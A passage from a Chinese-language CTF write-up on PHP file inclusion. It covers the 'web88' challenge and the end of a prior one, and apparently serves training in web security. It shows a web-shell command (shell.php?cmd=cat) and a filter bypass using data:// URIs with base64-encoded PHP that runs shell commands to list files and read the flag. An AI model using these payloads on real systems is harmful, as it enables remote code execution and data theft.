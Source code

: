 
最后访问`/shell.php?cmd=cat+fl0g.php`拿到flag

![image-20211228112947744](image/文件包含/image-20211228112947744.png)

参考文章：https://www.leavesongs.com/PENETRATION/php-filter-magic.html



#### web88

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
}
```

解题思路：只过滤了php,我们可以用data伪协议,base64绕过,但是还有一个问题,+和=号是被过滤的,而`<?php echo`ls`?>`的base64加密有等号,我们可以在后面加入其他字符来混淆

```php
##列出当前目录
?file=data://text/plain;base64,PD9waHAgZWNobyBgbHNgPz4xMTEx  #base64编码内容为<?php echo `ls`?>1111

##查看flag文件
?file=data://text/plain;base64,PD9waHAgZWNobyBgY2F0IGZsMGcucCpgPz4xMTEx  #base64编码内容为<?php echo `cat fl0g.p*`?>1111
```


